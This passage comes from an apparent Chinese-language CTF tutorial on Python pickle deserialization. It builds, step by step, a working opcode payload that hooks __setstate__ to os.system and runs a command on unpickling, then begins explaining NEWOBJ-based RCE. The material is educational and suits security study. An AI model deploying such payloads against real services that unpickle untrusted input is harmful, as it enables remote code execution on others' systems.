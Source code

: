 ```py

# >>> a
# <class 'db.User'>
# >>> a.__setstate__
# <built-in function system>
```
#### 第二步：实例化这个类
实例化这个类我们可以使用 OBJ 操作码，注意需要在前面加入 MAKR
```py
p = PROTO + b'\x04' + \
    MARK + \
    GLOBAL + b'db\nUser\n' + \
    NONE + \
        MARK + \
            UNICODE + b'__setstate__\n' + \
            GLOBAL + b'os\nsystem\n' + \
            DICT + \
        TUPLE2 + \
    BUILD + \
    OBJ + \

# >>> a
# <db.User object at 0x7f0a618bf790>
```
这样我们就得到了这个类的实例。

#### 第三步：压入参数并执行 BUILD
构造好对象之后，我们只需要再往栈上压入参数，如 "id", 然后再次触发 load_build 即可。下面是最终的 payload：
```py
p = PROTO + b'\x04' + \
    MARK + \
    GLOBAL + b'db\nUser\n' + \
    NONE + \
        MARK + \
            UNICODE + b'__setstate__\n' + \
            GLOBAL + b'os\nsystem\n' + \
            DICT + \
        TUPLE2 + \
    BUILD + \
    OBJ + \
    UNICODE + b'id\n' + \
    BUILD + \
    STOP
```
可以发现只要进行了反序列化，就会触发命令执行。

### 利用 load_newobj RCE
上面的 load_build 方法存在一个缺陷，必须要能够先实例化一个类才可以进行利用，假如环境中没有这样的一个类呢？为了解决这个问题，可以利用 load_newobj 函数。

load_newobj 函数对应的是 NEWOBJ 操作码的行为， NEWOBJ 操作码的值为 `b'\x81'`, 这个操作码会根据提供的参数，调用类的 `__new__` 方法,函数内容如下：
```py
    def load_newobj(self):
        args = self.stack.pop()
        cls = self.stack.pop()
        obj = cls.__new__(cls, *args)
        self.append(obj)
    dispatch[NEWOBJ[0]] = load_newobj
```
可以看到 cls 和 `args` 都是可控的，如果某个类的 `__new__` 方法可以执行任意命令，那么就可以配合 NEWOBJ 操作码在反序列化使达成 RCE。美团CTF 2022 ezpickle 和 蓝帽杯2022 file_session 这两道题目的解题思路就是利用了这个点。
